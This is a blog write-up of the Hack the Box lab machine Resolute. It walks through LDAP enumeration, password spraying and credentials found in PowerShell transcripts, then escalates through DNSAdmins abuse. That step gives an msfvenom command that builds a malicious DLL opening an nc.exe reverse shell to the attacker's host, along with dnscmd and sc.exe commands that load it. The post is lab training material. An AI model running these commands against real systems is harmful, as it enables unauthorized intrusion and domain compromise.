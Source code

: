 +++
author = "Nick"
categories = ["hack the box", "windows", "WinRM", "dll injection", "dns admin", "hydra", "evil-winrm", "smb"]
date = 2020-05-30T14:56:00Z
description = ""
draft = false
thumbnail = "/images/2019/12/resolute.png"
slug = "hack-the-box-resolute"
tags = ["hack the box", "windows", "WinRM", "dll injection", "dns admin", "hydra", "evil-winrm", "smb"]
title = "Hack the Box - Resolute"
url = "/hack-the-box-resolute"

+++


Welcome back everyone! Today we are going to be doing the machine Resolute on Hack the Box. This is a Windows machine with a medium difficulty. Let's jump in!

As usual, start with the standard `nmap`: 
```bash 
nmap -sC -sV -T4 -p- -oA resolute 10.10.10.169`
``` 
Here are our results:
```
Host is up (0.24s latency).
Not shown: 990 closed ports
PORT     STATE SERVICE      VERSION
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2019-12-09 19:23:46Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m00s, deviation: 4h37m08s, median: 7m00s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2019-12-09T11:24:29-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2019-12-09T19:24:35
|_  start_date: 2019-12-09T18:37:33

```

We can start by checking to see if we can enumerate `LDAP` anonymously. To do that we issue: `ldapsearch -x -h megabank.local`

![](/images/2019/12/image-44.png)

We get a response back. So we now know that if we combine our leaked FQDN with our search string, we can start searching the structure.

Command:
```ldapsearch -x -h megabank.local -b 'dc=megabank,dc=local'```

This gives us 270 entries, so we save that output. We can further define our search with `LDAP` queries attached to `ldapsearch`. We want to get just users right now.

Command:
`ldapsearch -x -h megabank.local -p 3268 -b 'dc=megabank,dc=local' "(&(objectClass=user))"`

We can save that output and start parsing through it. We have an interesting note on one of the accounts.

![](/images/2019/12/image-45.png)

I wonder if this password is still valid. It's not, however, a common tactic is to reuse a password for a group of new users. So in this case we try to use the same password for all of the accounts that we found. We get one, ```Melanie```. You can also send a currated listed through `Hydra` to spray all the accounts.

![](/images/2019/12/resolute_spray.gif)

We login as Melanie and get our user flag from her Desktop. We start to look around the box and see a PSTranscripts folder. Inside this is another folder that has the logging output of a script that has been run. Inside the script, we have credentials for ```Ryan```.

![](/images/2019/12/image-46.png)

We can now login as Ryan. We do some more enumeration and see that Ryan is part of the DNSAdmins group.

![](/images/2019/12/image-47.png)

If you've been a System Administrator or on a Red Team you know this is a valid path to escalation. [Here](https://adsecurity.org/?p=4064) and [here](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) are two quick articles on the topic. So our goal here is to create a malicious dll file with `msfpc` or `msfvenom`. Host it on an `smb share`. Then tell our DNS system to load the dll. This should then execute our payload and connect back to us.

This payload is slightly different than the normal ones we use. This time we are also embedding our command to call.

Command:
`msfvenom -p windows/x64/exec cmd='\\10.10.15.129\share\nc.exe 10.10.15.129 80 -e cmd.exe' -f dll > rootme.dll`

Now we need to move it to where we will host our SMB share. For me thats the Tools directory. We also want to make sure we have a copy of `netcat` for Windows on our share as well. Since our payload calls back to our share to use it.

Command:
`impacket-smbserver -smb2support share .`

This spins up our SMB share called 'share'. Now we just need to get our payload loaded. Within Windows we can use the `dnscmd.exe` tool from the CLI. We tell it to load the payload.

Command:
`dnscmd resolute /config /serverlevelplugindll \\10.10.15.129\share\rootme.dll`

A quick breakdown of this command:
`dnscmd` is the tool we are calling.
`resolute` is the server hostname.
`/config` issues a config wipe for the zone.
`/serverlevelplugindll` tells the system to load a specific plugin.

Once we've loaded our malicious dll, we need to restart the DNS services.

Command:
`sc.exe \\Resolute stop dns`
then
`sc.exe \\Resolute start dns`

We should then see our SMB Share light up, followed by our Netcat session.

![](/images/2019/12/resolute_root.gif)

We are in as root! Off to the root flag! Box complete.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

